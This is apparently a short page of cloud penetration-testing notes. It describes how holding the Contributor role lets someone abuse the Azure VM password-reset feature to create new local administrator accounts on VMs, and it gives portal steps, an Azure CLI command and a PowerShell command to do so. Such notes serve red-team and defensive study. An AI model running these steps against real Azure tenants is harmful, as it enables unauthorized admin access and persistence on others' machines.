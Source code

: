 # Exploiting Password Reset Feature

## Requirements: Contributor account/role access

## Tools: Lava, Azure Portal , Azure command line

### The password reset feature for Azure VMs was intended to simplify the process of resetting the password of a local Azure VM user, using the VM agent that is installed on every Azure VM. However, this feature could be abused to create new local users with administrative privileges on both Windows and Linux VMs in Azure!

## VM Enumeration command

    GetAzVM

# 1) Azure Portal

 - On the target VM, go to "reset password" then choose our newly created user and set his new password.

# 2) Azure CLI

    az vm user update -u USERNAME -p PASSWORD -n VM_NAME -g RESOURCE_GROUP (Create a local user for a VM.)

# 3) Azure Powershell

    Set-AzVMAccessExtension -ResourceGroupName "RESOURCE_GROUP" -Location "LOCATION" -VMName "VM_NAME" -Name "EXTENSION_NAME" -TypeHandlerVersion "2.4" -UserName "USERNAME" -Password "PASSWORD"
